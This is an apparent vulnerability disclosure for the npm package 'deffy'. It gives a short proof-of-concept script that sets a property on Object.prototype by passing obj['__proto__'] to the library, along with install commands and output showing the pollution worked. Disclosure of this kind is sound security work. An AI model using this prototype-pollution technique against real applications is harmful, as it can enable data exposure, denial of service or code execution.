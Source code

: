 ## :writing_hand: Description

`deffy` is a small and fast library to set default values. This package is vulnerable to `Prototype Pollution`.

## :male_detective: Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const deffy = require('deffy')
const obj = {}
console.log('Before: ' + {}.polluted)
deffy(obj['__proto__'], {}).polluted = 'Prototype Polluted!'
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i deffy # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Prototype Polluted!
```

## :boom: Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.